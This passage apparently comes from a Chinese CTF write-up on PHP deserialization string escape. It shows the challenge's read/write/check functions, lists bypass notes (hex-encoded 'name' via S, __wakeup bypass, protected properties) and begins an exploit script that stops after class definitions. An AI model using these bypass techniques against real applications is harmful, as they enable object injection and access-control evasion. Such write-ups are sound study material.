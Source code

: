 

**common.php**

```php
<?php
function read($data){
    $data = str_replace('\0*\0', chr(0)."*".chr(0), $data);
    return $data;
}
function write($data){
    $data = str_replace(chr(0)."*".chr(0), '\0*\0', $data);
    return $data;
}

function check($data)
{
    if(stristr($data, 'name')!==False){
        die("Name Pass\n");
    }
    else{
        return $data;
    }
}
?>
```



- pop链中的变量都变成了protected，反序列化时需格外注意。
- read函数有变化，字符是从5个减小到3个。
- 绕过对于name的过滤，可以使用十六进制，然后使用S进行转义处理。否则无法正确处理十六进制
- 绕过__wakeup。



**利用脚本**

```php
<?php

class player{
    protected $user;
    protected $pass;
    protected $admin;

    public function __construct($user, $pass, $admin = 0){
        $this->user = $user;
        $this->pass = $pass;
        $this->admin = $admin;
    }

}

class topsolo{
    protected $name;

    public function __construct($name = 'Riven'){
        $this->name = $name;
    }

}

class midsolo{
    protected $name;

    public function __construct($name){
        $this->name = $name;
    }
```